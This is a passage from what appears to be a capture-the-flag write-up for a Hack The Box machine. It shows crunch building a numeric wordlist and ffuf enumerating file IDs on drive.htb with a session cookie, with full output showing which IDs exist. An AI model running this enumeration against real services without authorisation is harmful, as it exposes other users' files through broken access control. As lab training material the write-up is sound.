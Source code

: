 **Fuzzing Files**

For me, the next step was to fuzz file identifiers to see if there are any files inaccessible to us at the moment, but which exist. Using `crunch`, I generated a wordlist of numbers from 000 to 999 for fuzzing purposes:
```
thehated@TRYHARDER:/dev/shm$ crunch 1 3 0123456789 > nums.txt  
Crunch will now generate the following amount of data: 4320 bytes  
0 MB  
0 GB  
0 TB  
0 PB  
Crunch will now generate the following number of lines: 1110
```

Additionally, I took the sessionid of my current user and passed it as a cookie to `ffuf`. With these, we should be able to confirm the existence of some files:
```
thehated@TRYHARDER:/dev/shm$ ffuf -u http://drive.htb/FUZZ/getFileDetail/ -w nums.txt -H 'Cookie: sessionid=6xprjh2qvwkbfedq2lga399dk9d4dx1r'  
  
       /'___\  /'___\           /'___\          
      /\ \__/ /\ \__/  __  __  /\ \__/          
      \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\         
       \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/         
        \ \_\   \ \_\  \ \____/  \ \_\          
         \/_/    \/_/   \/___/    \/_/          
  
      v1.1.0  
________________________________________________  
  
:: Method           : GET  
:: URL              : http://drive.htb/FUZZ/getFileDetail/  
:: Wordlist         : FUZZ: nums.txt  
:: Header           : Cookie: sessionid=6xprjh2qvwkbfedq2lga399dk9d4dx1r  
:: Follow redirects : false  
:: Calibration      : false  
:: Timeout          : 10  
:: Threads          : 40  
:: Matcher          : Response status: 200,204,301,302,307,401,403  
________________________________________________  
  
79                      [Status: 401, Size: 26, Words: 2, Lines: 1]  
98                      [Status: 401, Size: 26, Words: 2, Lines: 1]  
99                      [Status: 401, Size: 26, Words: 2, Lines: 1]  
079                     [Status: 401, Size: 26, Words: 2, Lines: 1]  
098                     [Status: 401, Size: 26, Words: 2, Lines: 1]  
099                     [Status: 401, Size: 26, Words: 2, Lines: 1]  
101                     [Status: 401, Size: 26, Words: 2, Lines: 1]  
100                     [Status: 200, Size: 5077, Words: 1147, Lines: 172]  
112                     [Status: 200, Size: 5050, Words: 1060, Lines: 167]  
:: Progress: [1110/1110] :: Job [1/1] :: 111 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
```
